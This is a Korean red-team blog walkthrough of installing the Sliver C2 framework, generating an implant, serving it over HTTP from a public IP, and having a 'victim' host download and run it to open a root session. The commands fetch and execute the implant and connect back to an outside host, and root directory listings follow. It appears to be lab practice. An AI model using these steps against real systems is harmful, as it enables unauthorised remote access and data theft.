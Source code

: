 ```yaml
---
title: Red-Team Framework - (1) Sliver
author: Jeongwon
date: 2025-03-26 12:24:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## How to Install Sliver
###### `REF` : [Sliver wiki](https://sliver.sh/docs?name=Getting+Started)

```bash
sudo apt update
curl https://sliver.sh/install|sudo bash

systemctl status sliver # 실행 확인
systemctl start sliver # sliver 실행

sliver
```
![image](assets/img/red-framework-sliver/activate_sliver.png)<br><br><br>

## How to Use Sliver

#### Session Connection
```bash
# [Sliver] 임플란트 생성 및 Session 서버 생성
generate --http [C2서버 공인 IP] -s [임플란트 경로 & 파일명] --os [타겟 운영체제] --arch [타겟 아키텍쳐]
http -d 54.180.117.219 -l 80

# [공격자 Bash] 웹 서버 생성
python3 -m http.server 8443

# [피해자 Bash] http://54.180.117.219:8443/demo.exe 접근 후 실행
wget http://54.180.117.219:8443/test
chmod +x ./test
./test
```
<br>

```bash
sliver > sessions

 ID         Transport   Remote Address     Hostname         Username   Operating System   Health  
========== =========== ================== ================ ========== ================== =========
 48df96c2   http(s)     X.X.X.X:41256     ip-172-31-45-3   root       linux/amd64        [ALIVE] 

sliver > sessions -i 48df96c2

[*] Active session ENTHUSIASTIC_APPEAL (48df96c2)

sliver (ENTHUSIASTIC_APPEAL) > whoami

Logon ID: root

sliver (ENTHUSIASTIC_APPEAL) > ls

/root (10 items, 15.0 MiB)
==========================
-rw-------  root:root  .bash_history   4.6 KiB   Sat Mar 29 16:02:16 +0000 2025
-rw-r--r--  root:root  .bashrc         3.0 KiB   Mon Apr 22 13:04:27 +0000 2024
-rw-------  root:root  .lesshst        20 B      Fri Mar 28 13:50:41 +0000 2025
-rw-------  root:root  .mysql_history  1.8 KiB   Sat Mar 29 09:24:45 +0000 2025
-rw-r--r--  root:root  .profile        161 B     Mon Apr 22 13:04:27 +0000 2024
drwx------  root:root  .ssh            <dir>     Tue Mar 18 13:17:57 +0000 2025
-rw-------  root:root  .viminfo        13.3 KiB  Sat Mar 29 09:15:21 +0000 2025
-rw-r--r--  root:root  .wget-hsts      209 B     Tue Mar 18 13:37:30 +0000 2025
drwx------  root:root  snap            <dir>     Tue Mar 18 13:18:02 +0000 2025
-rwxr-xr-x  root:root  test            15.0 MiB  Sun Mar 30 07:37:33 +0000 2025
```
<br>

Reverse Shell이 잘 연결됨을 확인할 수 있습니다.<br><br><br>

#### Attack Simulation

```bash
armory install all 
```
